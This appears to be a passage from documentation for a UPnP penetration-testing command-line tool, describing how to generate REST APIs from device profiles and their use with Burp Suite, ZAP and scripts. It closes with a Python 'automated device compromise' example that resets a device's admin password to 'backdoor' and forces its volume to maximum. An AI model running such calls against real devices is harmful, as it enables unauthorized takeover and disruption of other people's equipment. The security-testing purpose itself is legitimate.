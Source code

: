 ```json
  }
}
```

### Phase 3: REST API Generation
```bash
# Generate REST API from enhanced profile (when implemented)
upnp-cli generate-api enhanced_profiles/Device_Profile.json --output-dir apis/
```

**What happens**:
1. Profile is parsed for action inventory
2. FastAPI application is generated with endpoints for each action
3. Request validation is created based on SCPD data types
4. Interactive documentation is auto-generated
5. Startup scripts and requirements are created

## 🎯 **Penetration Testing Value**

### Security Intelligence Gathering
**Enhanced profiles provide**:
- Complete attack surface mapping (all available actions)
- Security-relevant action identification
- Complexity assessment for exploit planning
- Argument specifications for payload crafting

### Modern Tool Integration
**REST APIs enable**:
- **Burp Suite**: Intercept and modify all device actions as HTTP requests
- **OWASP ZAP**: Automatic security scanning of all endpoints  
- **Python Scripts**: Simple automation with `requests` library
- **Postman**: Create and share attack collections

### Attack Automation
```python
# Example: Automated device compromise
import requests

api = "http://localhost:8000"

# Initialize connection
requests.post(f"{api}/init?host=192.168.1.100&port=1400")

# Execute security action
requests.post(f"{api}/systemproperties/edit_account_password", 
             json={"AccountType": "admin", "NewAccountPassword": "backdoor"})

# Volume manipulation for disruption
requests.post(f"{api}/renderingcontrol/set_volume", json={"DesiredVolume": "100"})
```
